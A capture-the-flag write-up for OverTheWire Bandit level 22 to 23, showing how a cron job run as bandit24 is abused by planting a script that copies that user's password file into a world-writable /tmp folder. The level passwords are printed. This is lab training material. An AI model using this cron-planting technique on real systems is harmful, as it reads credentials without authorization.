 # Bandit Level 22 → Level 23 Cronjobs and bash scripting

## Previous Flag
<b>0Zf11ioIjMVN551jX3CmStKLYqjk54Ga</b>

## Goal
Use previous password to log in SSH with user <b>bandit23</b> on port <b>2220</b>. A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in <b>/etc/cron.d/</b> for the configuration and see what command is being executed.

NOTE: This level requires you to <b>create your own first shell-script</b>
NOTE: Your shell <b>script is removed once executed</b>, so you may want to keep a copy around …

## What I learned
```
mktemp -d:                  not work due to restrictions set by sysAdmin
/var/spool/$myname/foo      folder where script deletes bandit24
/tmp/                       no access, exploit w/ creating subfolder
deeper understanding of cron
```

## Solution
```
@trungdullc ➜ /workspaces/01noobHacker (main) $ ssh bandit23@bandit.labs.overthewire.org -p 2220 ⌨️
bandit23@bandit:~$ whatis chmod cron crontab ⌨️
chmod (1)            - change file mode bits
chmod (2)            - change permissions of a file
cron (8)             - daemon to execute scheduled commands (Vixie Cron)
crontab (1)          - maintain crontab files for individual users (Vixie Cron)
crontab (5)          - tables for driving cron
bandit23@bandit:~$ man 5 crontab ⌨️
CRONTAB(5)                                                  File Formats Manual                                                 CRONTAB(5)

NAME
       crontab - tables for driving cron

DESCRIPTION
       A  crontab  file  contains  instructions to the cron(8) daemon of the general form: ``run this command at this time on this date''.
       Each user has their own crontab, and commands in any given crontab will be executed as the user who owns  the  crontab.   Uucp  and
       News will usually have their own crontabs, eliminating the need for explicitly running su(1) as part of a cron command.

 Manual page crontab(5) line 1 (press h for help or q to quit)
bandit23@bandit:/etc/cron.d$ ls ⌨️
behemoth4_cleanup  cronjob_bandit22  cronjob_bandit24  leviathan5_cleanup    otw-tmp-dir
clean_tmp          cronjob_bandit23  e2scrub_all       manpage3_resetpw_job  sysstat
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24 ⌨️
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh ⌨️
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/etc/cron.d$ mkdir /tmp/everyoneaccess && chmod 777 /tmp/everyoneaccess ⌨️
bandit23@bandit:/etc/cron.d$ vi /tmp/everyoneaccess/main.sh ⌨️
bandit23@bandit:/etc/cron.d$ cat /tmp/everyoneaccess/main.sh ⌨️
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/everyoneaccess/pass.txt
bandit23@bandit:/etc/cron.d$ ls -la  /tmp/everyoneaccess/main.sh ⌨️
-rw-rw-r-- 1 bandit23 bandit23 178 Aug  1 22:54 /tmp/everyoneaccess/main.sh
bandit23@bandit:/etc/cron.d$ chmod +x /tmp/everyoneaccess/main.sh ⌨️
bandit23@bandit:/etc/cron.d$ ls -la  /tmp/everyoneaccess/main.sh ⌨️
-rwxrwxr-x 1 bandit23 bandit23 178 Aug  1 22:54 /tmp/everyoneaccess/main.sh
bandit23@bandit:/etc/cron.d$ cp /tmp/everyoneaccess/main.sh /var/spool/bandit24/foo/ ⌨️
bandit23@bandit:/tmp/everyoneaccess$ cat pass.txt ⌨️                             # Wait 1 min
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 🔐
```

## Flag
<b>gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8</b>

## Continue
[Continue](/overthewire/Bandit2324.md)